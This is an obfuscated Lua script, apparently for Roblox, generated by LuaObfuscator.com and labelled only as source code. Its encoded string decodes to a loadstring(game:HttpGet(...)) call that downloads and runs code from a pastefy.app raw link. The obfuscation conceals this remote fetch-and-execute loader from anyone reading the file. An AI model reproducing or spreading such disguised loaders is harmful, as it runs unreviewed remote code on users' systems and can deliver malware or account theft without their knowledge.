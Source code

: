 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.9) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v81=v2(v0(v30,16));if v19 then local v92=v5(v81,v19);v19=nil;return v92;else return v81;end end end);local function v20(v31,v32,v33) if v33 then local v82=0;local v83;while true do if (v82==(0 -0)) then v83=(v31/(2^(v32-(2 -1))))%((3 -1)^(((v33-(2 -1)) -(v32-(620 -((1432 -(282 + 595)) + 64)))) + (932 -(857 + 74)))) ;return v83-(v83%(569 -(367 + 201))) ;end end else local v84=(1639 -(1523 + 114))^(v32-(928 -(214 + 713))) ;return (((v31%(v84 + v84))>=v84) and (1 + 0 + 0)) or (0 + 0) ;end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35,v36=v1(v16,v18,v18 + (2 -0) );v18=v18 + 2 ;return (v36 * (1321 -(68 + 997))) + v35 ;end local function v23() local v37=1270 -((576 -(87 + 263)) + 1044) ;local v38;local v39;local v40;local v41;while true do if (v37==(0 -0)) then v38,v39,v40,v41=v1(v16,v18,v18 + (120 -((212 -(67 + 113)) + 85)) );v18=v18 + 4 + 0 ;v37=1 + 0 ;end if (v37==(958 -(892 + 65))) then return (v41 * (40022563 -23245347)) + (v40 * (121138 -55602)) + (v39 * (469 -213)) + v38 ;end end end local function v24() local v42=0 + 0 ;local v43;local v44;local v45;local v46;local v47;local v48;while true do if (v42==(0 -0)) then v43=v23();v44=v23();v42=1 + (1486 -(998 + 488)) ;end if (v42==(11 -(3 + 5))) then if (v47==(952 -(657 + 145 + 150))) then if (v46==(0 -0)) then return v48 * 0 ;else local v102=0 -0 ;while true do if (v102==(0 + (772 -(201 + 571)))) then v47=998 -(915 + 82) ;v45=0 -0 ;break;end end end elseif (v47==(1193 + 854)) then return ((v46==(0 -0)) and (v48 * ((1188 -(1069 + 118))/(0 -0)))) or (v48 * NaN) ;end return v8(v48,v47-(2161 -(116 + 1022)) ) * (v45 + (v46/((3 -1)^(10 + 42)))) ;end if (v42==(3 -1)) then v47=v20(v44,(87 -66) + 0 ,822 -(368 + 423) );v48=((v20(v44,32)==(3 -2)) and  -1) or (19 -(10 + 8)) ;v42=3;end if (v42==(3 -2)) then v45=443 -(416 + 26) ;v46=(v20(v44,(2 + 1) -(7 -5) ,9 + 11 ) * ((3 -1)^(470 -(145 + 293)))) + v43 ;v42=432 -(44 + 386) ;end end end local function v25(v49) local v50;if  not v49 then v49=v23();if (v49==(0 -0)) then return "";end end v50=v3(v16,v18,(v18 + v49) -(860 -(814 + 45)) );v18=v18 + v49 ;local v51={};for v65=2 -1 , #v50 do v51[v65]=v2(v1(v3(v50,v65,v65)));end return v6(v51);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v52=(function() return 0 + 0 ;end)();local v53=(function() return;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();while true do if (v52~= #",") then else local v88=(function() return 0 + 0 ;end)();local v89=(function() return;end)();while true do if (v88==(202 -(14 + 188))) then v89=(function() return 675 -(534 + 141) ;end)();while true do if (v89==(1 + 1)) then v52=(function() return 2;end)();break;end if (v89==0) then v57=(function() return v23();end)();v58=(function() return {};end)();v89=(function() return 1;end)();end if (v89==(1 + 0)) then for v126= #"|",v57 do local v127=(function() return 0 + 0 ;end)();local v128=(function() return;end)();local v129=(function() return;end)();local v130=(function() return;end)();while true do if (v127==1) then v130=(function() return nil;end)();while true do if (0==v128) then local v174=(function() return 0 + 0 ;end)();local v175=(function() return;end)();while true do if (v174~=(0 -0)) then else v175=(function() return 0 -0 ;end)();while true do if (v175==(0 -0)) then v129=(function() return v21();end)();v130=(function() return nil;end)();v175=(function() return 2 -1 ;end)();end if (v175==(1385 -(746 + 638))) then v128=(function() return 1;end)();break;end end break;end end end if (v128==(1 + 0)) then if (v129== #"\\") then v130=(function() return v21()~=(0 + 0) ;end)();elseif (v129==(2 + 0)) then v130=(function() return v24();end)();elseif (v129== #"91(") then v130=(function() return v25();end)();end v58[v126]=(function() return v130;end)();break;end end break;end if (v127==(396 -(115 + 281))) then v128=(function() return 0;end)();v129=(function() return nil;end)();v127=(function() return 1;end)();end end end v56[ #"asd"]=(function() return v21();end)();v89=(function() return 2;end)();end end break;end end end if (v52==(343 -(218 + 123))) then for v93= #",",v23() do local v94=(function() return 0 -0 ;end)();local v95=(function() return;end)();while true do if (v94==(1581 -(1535 + 46))) then v95=(function() return v21();end)();if (v20(v95, #"~", #"}")==(0 + 0)) then local v122=(function() return 0;end)();local v123=(function() return;end)();local v124=(function() return;end)();local v125=(function() return;end)();while true do if ((0 + 0)~=v122) then else v123=(function() return v20(v95,4 -2 , #"asd");end)();v124=(function() return v20(v95, #".com",21 -15 );end)();v122=(function() return 1;end)();end if ((868 -(550 + 317))~=v122) then else local v157=(function() return 0 -0 ;end)();while true do if (v157==(1 -0)) then v122=(function() return 2 -0 ;end)();break;end if (0==v157) then v125=(function() return {v22(),v22(),nil,nil};end)();if (v123==(0 -0)) then local v177=(function() return 285 -(134 + 151) ;end)();local v178=(function() return;end)();while true do if (v177~=(603 -(268 + 335))) then else v178=(function() return 1665 -(970 + 695) ;end)();while true do if (v178==0) then v125[ #"-19"]=(function() return v22();end)();v125[ #".dev"]=(function() return v22();end)();break;end end break;end end elseif (v123== #"[") then v125[ #"xxx"]=(function() return v23();end)();elseif (v123==(292 -(60 + 230))) then v125[ #"91("]=(function() return v23() -((574 -(426 + 146))^16) ;end)();elseif (v123== #"19(") then local v183=(function() return 0 + 0 ;end)();local v184=(function() return;end)();while true do if (v183~=0) then else v184=(function() return 1456 -(282 + 1174) ;end)();while true do if ((811 -(569 + 242))~=v184) then else v125[ #"xxx"]=(function() return v23() -((3 -1)^(2006 -(582 + 1408))) ;end)();v125[ #"xnxx"]=(function() return v22();end)();break;end end break;end end end v157=(function() return 1;end)();end end end if (v122==(10 -7)) then if (v20(v124, #"19(", #"19(")~= #",") then else v125[ #"xnxx"]=(function() return v58[v125[ #"http"]];end)();end v53[v93]=(function() return v125;end)();break;end if (v122==(2 -0)) then if (v20(v124, #"}", #"}")== #"{") then v125[7 -5 ]=(function() return v58[v125[1826 -(1195 + 629) ]];end)();end if (v20(v124,2 -0 ,243 -(187 + 54) )~= #"}") then else v125[ #"xxx"]=(function() return v58[v125[ #"xnx"]];end)();end v122=(function() return 783 -(162 + 618) ;end)();end end end break;end end end for v96= #"}",v23() do v54[v96-#"," ]=(function() return v28();end)();end return v56;end if (v52~=(0 + 0)) then else local v90=(function() return 0 + 0 ;end)();local v91=(function() return;end)();while true do if (0~=v90) then else v91=(function() return 0;end)();while true do if (v91==(1 -0)) then v55=(function() return {};end)();v56=(function() return {v53,v54,nil,v55};end)();v91=(function() return 2;end)();end if (v91~=(1 + 1)) then else v52=(function() return  #":";end)();break;end if (v91==0) then v53=(function() return {};end)();v54=(function() return {};end)();v91=(function() return 1;end)();end end break;end end end end end local function v29(v59,v60,v61) local v62=v59[1];local v63=v59[2];local v64=v59[1274 -(945 + 326) ];return function(...) local v67=v62;local v68=v63;local v69=v64;local v70=v27;local v71=2 -(1 + 0) ;local v72= -(1 + 0);local v73={};local v74={...};local v75=v12("#",...) -(1 + 0 + 0) ;local v76={};local v77={};for v85=0,v75 do if (v85>=v69) then v73[v85-v69 ]=v74[v85 + (1501 -(1408 + 53 + 39)) ];else v77[v85]=v74[v85 + 1 ];end end local v78=(v75-v69) + (1087 -(461 + (1354 -729))) ;local v79;local v80;while true do v79=v67[v71];v80=v79[1289 -(993 + 295) ];if ((v80<=(1 + 2)) or (502>1529)) then if (v80<=(1172 -(418 + 753))) then if ((518<902) and (v80==(0 + 0))) then v77[v79[1 + 1 ]]();else local v103=v79[1 + 1 ];v77[v103]=v77[v103](v13(v77,v103 + 1 + 0 ,v72));end elseif (v80==2) then v77[v79[531 -(406 + 123) ]]=v61[v79[3]];else local v107=1769 -(1749 + 20) ;local v108;local v109;local v110;local v111;while true do if ((2994>858) and (v107==(1 + 1))) then for v159=v108,v72 do v111=v111 + (1323 -(1249 + (202 -129))) ;v77[v159]=v109[v111];end break;end if (v107==((2 -1) + 0)) then v72=(v110 + v108) -((334 + 812) -((2251 -1785) + 679)) ;v111=0 -0 ;v107=5 -3 ;end if (v107==(1900 -(106 + 1794))) then v108=v79[1 + 1 ];v109,v110=v70(v77[v108](v13(v77,v108 + 1 ,v79[1 + 2 ])));v107=2 -1 ;end end end elseif (v80<=(13 -8)) then if (v80==(118 -(4 + 110))) then local v112=0;local v113;local v114;local v115;local v116;local v117;while true do if ((v112==(588 -(57 + 527))) or (3755<=915)) then v71=v71 + (1428 -(41 + 1386)) ;v79=v67[v71];v117=v79[2];v114,v115=v70(v77[v117](v13(v77,v117 + (104 -(17 + (839 -(239 + 514)))) ,v79[3 + 0 + 0 ])));v72=(v115 + v117) -(1 -0) ;v112=14 -9 ;end if ((3946>3743) and (v112==(1331 -(797 + 532)))) then v77[v79[168 -(122 + 32 + 12) ]]=v61[v79[5 -2 ]];v71=v71 + (3 -2) ;v79=v67[v71];v117=v79[2 + 0 ];v116=v77[v79[3]];v112=1 + 2 ;end if (v112==0) then v113=nil;v114,v115=nil;v116=nil;v117=nil;v77[v79[3 -1 ]]={};v112=1;end if (v112==(70 -(30 + 35))) then v113=0 + 0 ;for v162=v117,v72 do local v163=1257 -(1043 + 214) ;while true do if (v163==((0 + 0) -0)) then v113=v113 + ((2851 -1638) -(323 + 889)) ;v77[v162]=v114[v113];break;end end end v71=v71 + (2 -1) ;v79=v67[v71];v117=v79[582 -((1563 -(373 + 829)) + 219) ];v112=6;end if (v112==(323 -((784 -(476 + 255)) + 267))) then v77[v117 + 1 ]=v116;v77[v117]=v116[v79[(1131 -(369 + 761)) + 3 ]];v71=v71 + 1 ;v79=v67[v71];v77[v79[415 -(15 + 398) ]]=v79[985 -(18 + 964) ];v112=14 -10 ;end if ((v112==(5 + 2)) or (1335>=3306)) then v79=v67[v71];do return;end break;end if ((4844>2253) and (v112==(4 + 2))) then v77[v117]=v77[v117](v13(v77,v117 + (851 -(20 + 830)) ,v72));v71=v71 + 1 + 0 ;v79=v67[v71];v77[v79[128 -(116 + 10) ]]();v71=v71 + 1 + 0 ;v112=745 -(314 + 228 + 196) ;end if (v112==(1 -0)) then v71=v71 + 1 + (0 -0) ;v79=v67[v71];v77[v79[2 + 0 ]]=v61[v79[2 + 1 ]];v71=v71 + (2 -1) ;v79=v67[v71];v112=(7 -3) -2 ;end end else v77[v79[1553 -(1126 + 425) ]]={};end elseif (v80<=(411 -(118 + 287))) then v77[v79[7 -5 ]]=v79[241 -(64 + 174) ];elseif (v80>(1128 -(17 + 101 + 1003))) then local v131=0 -0 ;local v132;local v133;while true do if ((378 -(142 + 235))==v131) then v77[v132 + (4 -3) ]=v133;v77[v132]=v133[v79[1 + 3 ]];break;end if ((977 -(553 + 424))==v131) then v132=v79[2];v133=v77[v79[5 -2 ]];v131=1 + 0 ;end end else do return;end end v71=v71 + 1 + 0 ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403203Q00682Q7470733A2Q2F706173746566792E612Q702F4A55357053584A4B2F72617700094Q00047Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);

